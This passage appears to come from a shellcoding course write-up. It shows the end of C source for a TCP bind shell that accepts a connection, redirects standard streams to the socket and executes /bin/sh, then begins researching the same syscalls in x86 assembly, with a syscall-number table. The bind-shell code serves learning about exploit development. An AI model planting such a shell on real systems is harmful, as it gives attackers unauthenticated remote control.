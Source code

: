 ```c
  bind(sockfd, (struct sockaddr*) &bind_addr, sizeof(bind_addr));


  // LISTEN FOR CONNECTIONS
  // Listen for connections on this tcp socket
  listen(sockfd, 0);


  // ACCEPT CONNECTIONS
  // Accept connection on listening socket and save the new socket fd (client)
  clientfd = accept(sockfd, NULL, NULL);


  // CHANGE STD FILE DESCRIPTORS
  // Overwrite old stdin, stdout, stderr fd's with the client socket fd
  dup2(clientfd, 0); // stdin
  dup2(clientfd, 1); // stdout
  dup2(clientfd, 2); // stderr


  // EXECVE SHELL
  // Execute the new program /bin/sh, which will now use the client socket to
  //  handle it's stdin, stdout, and stderr
  execve("/bin/sh", NULL, NULL);


  // EXIT
  // This will never happen because execve closes out for us.
  return 0;
}
```

Running this through libemu was not very fruitful, and getting it to work would be slightly out of scope (and unnecessary) for this assignment. So, we'll move on to doing some research on how to make all of these same function calls in assembly.  


## Initial Research

#### Syscalls

We need to know how to make the following system calls based on our C code above:

`socket` - `bind` - `listen` - `accept` - `dup2` - `execve`

In order to find the syscall numbers, we'll look in the `unistd_32.h` header file located, on my system, at `/usr/include/i386-linux-gnu/asm/unistd_32.h`. Upon searching through this file, we now have a table we can use to call any function we'll need for this assignment.


**_Syscall Numbers_**

| Function  | Decimal   | Hex       |
| --------  | --------- | --------- |
| socket    | 359       | 0x167     |
| bind      | 361       | 0x169     |
| listen    | 363       | 0x16b     |
| accept4 | 364       | 0x16c     |
| dup2      | 63        | 0x3f      |
| execve    | 11        | 0xb       |
